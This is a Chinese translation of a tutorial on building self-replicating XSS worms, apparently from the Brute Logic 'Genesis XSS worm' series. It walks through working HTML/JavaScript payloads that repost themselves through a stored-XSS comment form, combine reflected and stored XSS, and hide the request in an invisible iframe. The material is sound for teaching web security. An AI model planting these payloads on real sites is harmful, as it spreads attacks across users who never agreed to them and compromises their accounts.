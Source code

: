 翻译自以下三篇文章
http://brutelogic.com.br/blog/genesis-xss-worm-part-i/
http://brutelogic.com.br/blog/genesis-xss-worm-part-ii/
http://brutelogic.com.br/blog/genesis-xss-worm-part-iii/

XSS攻击最大的危害在于可能在一个系统中的用户间互相感染，以致整个系统的用户沦陷。能够造成这种危害的脚本我们称之为xss蠕虫

为了更好的理解为xss蠕虫的工作原理，我们需要开始一段崭新的旅程去了解构造自我复制的代码所需要的技术

出于教学目的，我们将仅仅以最简单的代码实例做讲解。 所以我们尽可能避免使用XHR等js过程。

让我们来看看最简单的一个自我复制的反射型XSS实例。它仅仅能够在页面注入一个链接，打开这个链接将在新的标签页中注入同样的xss语句。

```
<a href target=_blank>click</a>
```

可以在[这里][1]尝试一下。

现在我们来看一个稍微复杂一些的例子。[这个][2]页面用于发送评论，并且存在存储型xss。
如果我们在评论中插入如下代码

```
<form method=post onclick=elements[0].value=outerHTML;submit()>
<input type=hidden name=comment>click me!</form>
```

这里注入了一个表格，使用post方法发送comment参数。每当onclick方法被触发时，它会将表格中的第一个元素的value填充为整个form标签内的html代码（包括form标签本身）这样每当有人点击click me!我们就能不断的发送这条评论到评论页面中，也就完成了自我复制。

对于很少有用户交互的xss向量，我们可以使用onmouseover事件或者类似的css trick来增加触发蠕虫的可能性。

尽管上面这个例子看起来很有趣，但是实际上一般评论页面都不会允许在评论中插入一个表格，在反射型xss中更有可能触发，但是这样造成的危害并不大，所以为了造成实际危害，我们需要结合反射型XSS与存储型XSS。

下面的一段代码将被插入到一个反射型xss中。

```
<form method=post action="//brutelogic.com.br/tests/comments.php"
onclick="elements[0].value='<a/href='%2BURL%2B'>link</a>';submit()">
<input type=hidden name=comment>click me!</form>
```

当click me被点击时，它将向comments.php post数据，完成发送评论的操作。和之前的html代码不同的是，他post的comment内容不再是一个表格，而是一个链接，链接的内容指向同样的xss向量，也就是注入了蠕虫代码的的存在存储型xss的页面。链接被点击后将继续造成蠕虫传播。

为了让攻击进行的更加隐蔽，我们可以不让用户返回至comment页面，而是通过插入一个不可见的iframe，并将请求在这个不可见的iframe中打开，代码如下

```
<iframe style=display:none name=x></iframe>
<form method=post action="//brutelogic.com.br/tests/comments.php"
onclick="elements[0].value='<a/href='%2BURL%2B'>link</a>';submit()"
target=x><input type=hidden name=comment>click me!</form>
```

在这里[尝试][3]。

下一部分中，我们将做一个独特的实验，即xss在传统社交网络中的不同用户间的传播是如何进行的。


  [1]: http://brutelogic.com.br/webgun/test.php?p=%3Ca%20href%20target=_blank%3Eclick%3C/a%3E
  [2]: http://brutelogic.com.br/tests/comments.php
  [3]: http://brutelogic.com.br/webgun/test.php?p=%3Ciframe%20style=display:none%20name=x%3E%3C/iframe%3E%3Cform%20method=post%20action=%22//brutelogic.com.br/tests/comments.php%22onclick=%22elements%5B0%5D.value=%27%3Ca/href=%27%2bURL%2b%27%3Elink%3C/a%3E%27;submit%28%29%22target=x%3E%3Cinput%20type=hidden%20name=comment%3Eclick%20me!%3C/form%3E



